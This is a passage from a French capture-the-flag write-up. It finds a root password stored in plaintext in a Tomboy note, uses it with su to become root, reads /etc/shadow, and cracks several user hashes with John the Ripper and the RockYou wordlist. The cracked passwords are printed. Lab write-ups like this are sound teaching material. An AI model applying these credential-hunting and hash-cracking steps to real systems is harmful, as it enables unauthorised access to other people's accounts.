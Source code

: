Or une note est particulièrement intéressante :  

```html
[amy@localhost .tomboy]$ cat 481bca0d-7206-45dd-a459-a72ea1131329.note 
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
  <last-change-date>2012-12-05T07:24:52.7364970-05:00</last-change-date>
  <create-date>2012-12-05T07:24:34.3731780-05:00</create-date>
  <cursor-position>15</cursor-position>
  <width>450</width>
  <height>360</height>
  <x>0</x>
  <y>0</y>
  <open-on-startup>False</open-on-startup>
</note>
```

F\*\*tus beatniks :D Il n'y a plus qu'à passer root via su :  

```plain
[amy@localhost ~]$ su 
Mot de passe : 
[root@localhost amy]# id
uid=0(root) gid=0(root) groupes=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=unconfined_u:system_r:unconfined_t:s0
[root@localhost amy]# head -1 /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
```

Les hashs présents dans /etc/shadow se cassent facilement avec la wordlist de *RockYou* (visiblement l'auteur du CTF aime bien cette liste et utilise les mots de passe trouvés dedans pour ses autres CTFs) :  

```plain
Loaded 5 password hashes with 5 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
50$cent          (cyrus)
buckyboy         (loren)
homebrew         (jennifer)
marvin1          (andy)
ne1410s          (patrick)
guesses: 5  time: 0:00:20:01 DONE (Mon Jul 14 16:13:48 2014)  c/s: 35139  trying: ne14101s - NE1469
```

Pwned!

*Published July 21 2014 at 19:11*
